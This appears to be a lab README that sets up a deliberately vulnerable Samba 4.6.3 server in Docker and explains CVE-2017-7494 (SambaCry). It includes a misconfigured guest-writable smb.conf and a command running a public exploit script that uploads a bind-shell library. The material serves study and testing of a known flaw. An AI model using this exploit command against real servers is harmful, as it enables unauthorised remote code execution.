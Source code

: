 # Samba Authenticated RCE (CVE-2017-7494, Aka SambaCry)

[中文版本(Chinese version)](README.zh-cn.md)

Samba is the standard Windows interoperability suite of programs for Linux and Unix, it provides secure, stable and fast file and print services for all clients using the SMB/CIFS protocol.

Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 4.6.4 that is vulnerable to a remote code execution vulnerability named **SambaCry**. CVE-2017–7494 allows remote authenticated users to upload a shared library to a writable shared folder, and perform code execution attacks to take control of servers that host vulnerable Samba services.

## Environment Setup

Execute following commands to start a Samba server 4.6.3:

```
docker-compose up -d
```

## Principle

Reference to [SambaCry RCE Exploit](https://medium.com/@lucideus/sambacry-rce-exploit-lucideus-research-3a3e5bd9e17c):

> Microsoft Remote Procedure Call (RPC) is a powerful technology for creating distributed client/server programs. RPC is an interprocess communication technique that allows client and server software to communicate.
> 
> MSRPC protocol allows to connect to a named pipe from remote destination. When trying to open a pipe using MSRPC on Samba, the server verifies the validity of the pipe name using the internal function `is_known_pipename()`.
> 
> An external RPC server can be set using the 'rpc_server' variable inside smb.conf and then it will handle the pipe request. 
> 
> The function `is_known_pipename()` doesn’t check that the pipe is valid, this allows to use '/' to insert a full path of an arbitrary library.

The exploitation requirements:

- An anonymous writeable server or an authenticated Samba account
- A known path of the writeable sharing directory

See also:

 - https://medium.com/@lucideus/sambacry-rce-exploit-lucideus-research-3a3e5bd9e17c
 - https://github.com/opsxcq/exploit-CVE-2017-7494
 - http://bobao.360.cn/learning/detail/3900.html

## Exploit

Samba config ( you can find [here](smb.conf) ) of our target server:

```
[global]
    map to guest = Bad User
    server string = Samba Server Version %v
    guest account = nobody

[myshare]
    path = /home/share
    read only = no
    guest ok = yes
    guest only = yes
```

Use `smbclient` to test connecting:

```
smbclient //your-ip/myshare -N
```

![](02.png)

If you got connection error, please check your network, especially port 445.

Using <https://github.com/opsxcq/exploit-CVE-2017-7494> to exploit the server:

```
./exploit.py -t your-ip -e libbindshell-samba.so -s myshare -r /home/share/libbindshell-samba.so -u guest -p guest -P 6699
```

Successful execute commands:

![](01.png)

Please note that, metasploit's `exploit/linux/samba/is_known_pipename` is tested failed since XX(I don't know) version, and I am really sure that it works on Jun 2017.